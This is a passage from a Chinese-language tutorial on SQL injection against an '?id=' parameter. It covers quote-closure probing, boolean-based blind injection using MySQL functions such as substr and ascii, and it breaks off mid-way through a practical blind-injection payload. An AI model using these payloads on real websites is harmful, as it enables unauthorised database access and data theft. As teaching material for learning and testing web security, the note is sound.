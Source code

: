 ?id=1\     不正常
?id=haha   不正常
```

因此可以估计：该数据库需要往里面传入一些不大不小的数字

```
?id=1' --+   正常
?id=1' and 0 --+    不正常
?id=1' and 1 --+   正常
```

得到结论：单引号闭合，且可以注入

```
?id=1' and 1<2 --+   正常
```

可以推出：可以输入一些长语句



### 布尔型盲注

boolean True/False

不显示错误，也不显示数据库的内容



#### 布尔型盲注-本地测试-小知识：

```
select database();
展示当前数据库库名

select length(database());
展示当前数据库库名的长度

select substr(database(),1,1);
截取数据库库名，从人类的第一个字，从第1个字开始取1个字

select ascii(substr(database(),1,1));
从第1个字开始取1个并且转化为ascii

select ascii(substr(database(),1,1))=104;
截取数据库库名第一个字，截取1个，转化为ascii码，判断是不是104
```



#### 实战：

```
?id=1' and (select ascii(substr(database(),1,1))< 120 )--+
